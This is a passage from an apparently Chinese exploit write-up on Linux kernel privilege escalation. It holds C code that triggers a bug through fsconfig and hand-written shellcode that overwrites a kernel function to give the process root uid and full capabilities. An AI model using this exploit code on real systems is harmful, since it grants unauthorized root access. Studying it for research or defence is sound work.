 

示例代码：

```c
// ps. should unshare user namespace first
int fd = fsopen("ext4", 0);
fsconfig(fd, FSCONFIG_SET_STRING, "\x00", "AAAA", 0);
```



下一步就是编写目标shellcode了。这里我手搓了一段shellcode来修改cred中的 uid、euid、cap_inheritable、cap_permitted、cap_effective 以及 user_ns。调用完shellcode后马上还原函数内容，防止影响到内核的正常使用。

```c
uint8_t shellcode[] = {
    // mov rax, 0x4141414141414141 (cred ptr)
    0x48, 0xb8, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

    // xor rdi, rdi
    0x48, 0x31, 0xff,

    // mov dword ptr [rax+4], edi (uid)
    // mov dword ptr [rax+20], edi (euid)
    0x89, 0x78, 0x04,
    0x89, 0x78, 0x14,

    // mov rdi, 0x000001ffffffffff
    0x48, 0xbf, 0xff, 0xff, 0xff, 0xff, 0xff, 0x01, 0x00, 0x00,

    // mov qword ptr [rax+0x28], rdi (cap_inheritable)
    // mov qword ptr [rax+0x30], rdi (cap_permitted)
    // mov qword ptr [rax+0x38], rdi (cap_effective)
    0x48, 0x89, 0x78, 0x28,
    0x48, 0x89, 0x78, 0x30,
    0x48, 0x89, 0x78, 0x38,

    // lea rdi, qword ptr [rax+136] (user_ns)
    // mov rsi, qword ptr [rdi]
    // mov rsi, qword ptr [rsi+216] (parent)
    // mov qword ptr [rdi], rsi
    0x48, 0x8d, 0xb8, 0x88, 0x00, 0x00, 0x00,
    0x48, 0x8b, 0x37,
    0x48, 0x8b, 0xb6, 0xd8, 0x00, 0x00, 0x00,
    0x48, 0x89, 0x37,

    0x48, 0x31, 0xc0, // xor rax,rax
    0xc3,             // ret
};

uint8_t backup[sizeof(shellcode)] = {0};

uint64_t *pos = (uint64_t *)&page[leak_ptrs.parse_param_fptr & 0xfff];
*(uint64_t *)(shellcode + 2) = leak_ptrs.cred_ptr; // patch cred_ptr
memcpy(backup, pos, sizeof(backup));
memcpy(pos, shellcode, sizeof(shellcode));

fsconfig(fd, FSCONFIG_SET_STRING, "\x00", "AAAA", 0);

memcpy(pos, backup, sizeof(backup));
```
